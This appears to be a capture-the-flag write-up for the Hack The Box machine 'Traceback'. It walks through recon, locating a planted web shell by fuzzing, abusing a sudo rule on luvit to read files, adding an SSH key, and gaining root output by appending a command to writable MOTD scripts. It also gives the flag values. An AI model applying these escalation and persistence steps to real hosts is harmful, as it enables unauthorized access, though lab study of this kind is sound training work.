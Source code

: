 ```yaml
---
layout: post
title: "[HTB] Traceback"
categories:
    - Hacking and Security
    - Offensive Security
    - Web Security
tags:
    - CTF
    - Hack The Box
---
```

Traceback is an easy Linux-based machine released on the 15th of March 2020 and reachable on the IP address `10.10.10.181`.

## User flag

Nmap indicates us that the Traceback machine is running OpenSSH and Apache:

```
$ nmap -A 10.10.10.181 | tee nmap.txt
Starting Nmap 7.80 ( https://nmap.org ) at 2020-08-23 19:03 IST
Nmap scan report for 10.10.10.181
Host is up (0.029s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 96:25:51:8e:6c:83:07:48:ce:11:4b:1f:e5:6d:8a:28 (RSA)
|   256 54:bd:46:71:14:bd:b2:42:a1:b6:b0:2d:94:14:3b:0d (ECDSA)
|_  256 4d:c3:f8:52:b8:85:ec:9c:3e:4d:57:2c:4a:82:fd:86 (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Help us
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 8.30 seconds
```

Let's have a look at the website available on port 80:

![Landing page of the website accessible on port 80](/assets/images/htb-traceback-landing-page.png)

The `index.html` page doesn't contain much but this HTML comment:

```
<center>
	<h1>This site has been owned</h1>
	<h2>I have left a backdoor for all the net. FREE INTERNETZZZ</h2>
	<h3> - Xh4H - </h3>
	<!--Some of the best web shells that you might need ;)-->
</center>
```

It is definitely a hint. A quick search on DuckDuckGo with the keywords "Xh4H web shell" returns https://github.com/Xh4H/Web-Shells as first result. It is a Git repository full of web shells. One of them is certainly the one that the original attacker has left on the server!

To create a wordlist with the web shells comprised in the Git repository, I called the [GitHub API](https://developer.github.com/v3/git/trees/#get-a-tree) with this one-liner command-line:

```
$ curl -s https://api.github.com/repos/Xh4H/Web-Shells/git/trees/4c9bade954938d56597325b872739c1a2463cf91 | jq -r .tree[].path | grep -vi readme | tee web-shells.txt
alfa3.php
alfav3.0.1.php
andela.php
bloodsecv4.php
by.php
c99ud.php
cmd.php
configkillerionkros.php
jspshell.jsp
mini.php
obfuscated-punknopass.php
punk-nopass.php
punkholic.php
r57.php
smevk.php
wso2.8.5.php
```

Then, I fuzzed the web server with this wordlist using ZAP:

![Output from ZAP's fuzzer with the list of web shells previously generated](/assets/images/htb-traceback-web-shells.png)

And voila! The backdoor is accessible at http://10.10.10.181/smevk.php:

![SmEvk web shell's login page](/assets/images/htb-traceback-smevk-login-page.png)

The credentials `admin:admin` are hard-coded in the web shell: https://github.com/Xh4H/Web-Shells/blob/master/smevk.php#L14-L15.

Then, I used the terminal available in the "Console" tab to poke around a little:

```
$ id
uid=1000(webadmin) gid=1000(webadmin) groups=1000(webadmin),24(cdrom),30(dip),46(plugdev),111(lpadmin),112(sambashare)
$ cat /home/webadmin/note.txt
- sysadmin -
I have left a tool to practice Lua.
I'm sure you know where to find it.
Contact me if you have any question.
```

A Lua tool?

```
$ cat /home/webadmin/.bash_history
ls -la
sudo -l
nano privesc.lua
sudo -u sysadmin /home/sysadmin/luvit privesc.lua
rm privesc.lua
logout
$ sudo -l
Matching Defaults entries for webadmin on traceback:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User webadmin may run the following commands on traceback:
    (sysadmin) NOPASSWD: /home/sysadmin/luvit
```

It indeed seems that the `webadmin` user can execute `/home/sysadmin/luvit` on behalf of `sysadmin` without password.

[Luvit](https://luvit.io/) is a program which "implements the same APIs as Node.js, but in Lua!". We can therefore use it to execute Lua payloads. We fill prepare one for reading the user flag:

```
$ printf 'file = io.open("/home/sysadmin/user.txt", "r")\nio.input(file)\nprint(io.read())\nio.close(file)\n' > /tmp/read_flag.lua
```

And then:

```
$ sudo -u sysadmin /home/sysadmin/luvit /tmp/read_flag.lua
```

Which gives us the user flag: `e564de9f40e354deb591fa121937ca0d`.

## Root flag

Before going further, I wanted to get a "real" shell so I added an SSH public key of mine to the `sysadmin` user's authorised keys and then connected back to the server as `sysadmin` via SSH.

During the rest of my investigation, something caught my attention:

```
$ find / -type f -writable 2>/dev/null | grep -v '^/proc' | grep -v '^/sys'
/etc/update-motd.d/50-motd-news
/etc/update-motd.d/10-help-text
/etc/update-motd.d/91-release-upgrade
/etc/update-motd.d/00-header
/etc/update-motd.d/80-esm
/home/sysadmin/.bashrc
/home/sysadmin/luvit
/home/sysadmin/.bash_logout
/home/sysadmin/.ssh/authorized_keys
/home/sysadmin/.cache/motd.legal-displayed
/home/sysadmin/.bash_history
/home/sysadmin/.profile
/home/webadmin/note.txt
```

The `sysadmin` user can edit the MOTD scripts!

```
sysadmin@traceback:~$ ls -al /etc/update-motd.d/
total 32
drwxr-xr-x  2 root sysadmin 4096 Aug 27  2019 .
drwxr-xr-x 80 root root     4096 Mar 16 03:55 ..
-rwxrwxr-x  1 root sysadmin  981 Aug 23 16:22 00-header
-rwxrwxr-x  1 root sysadmin  982 Aug 23 16:22 10-help-text
-rwxrwxr-x  1 root sysadmin 4264 Aug 23 16:22 50-motd-news
-rwxrwxr-x  1 root sysadmin  604 Aug 23 16:22 80-esm
-rwxrwxr-x  1 root sysadmin  299 Aug 23 16:22 91-release-upgrade
```

This is really bad (for the server's owner at least) because these scripts are executed upon any new SSH connection as defined in `/etc/pam.d/sshd`:

```
...
# Print the message of the day upon successful login.
# This includes a dynamically generated part from /run/motd.dynamic
# and a static (admin-editable) part from /etc/motd.
session    optional     pam_motd.so  motd=/run/motd.dynamic
session    optional     pam_motd.so noupdate
....
```

All I need is to modify one of those scripts to print the root flag:

```
$ echo 'cat /root/root.txt' >> /etc/update-motd.d/00-header
```

And when one logs in via SSH:

```
$ ssh -o PasswordAuthentication=no -i ~/.ssh/tr
aceback sysadmin@10.10.10.181
#################################
-------- OWNED BY XH4H  ---------
- I guess stuff could have been configured better ^^ -
#################################

Welcome to Xh4H land

fa6d76ff6866c37f381b5f6e40f8ce89


Failed to connect to https://changelogs.ubuntu.com/meta-release-lts. Check your Internet connection or proxy settings

Last login: Sun Aug 23 16:23:41 2020 from 10.10.14.16
$
```

The root flag was `fa6d76ff6866c37f381b5f6e40f8ce89`.
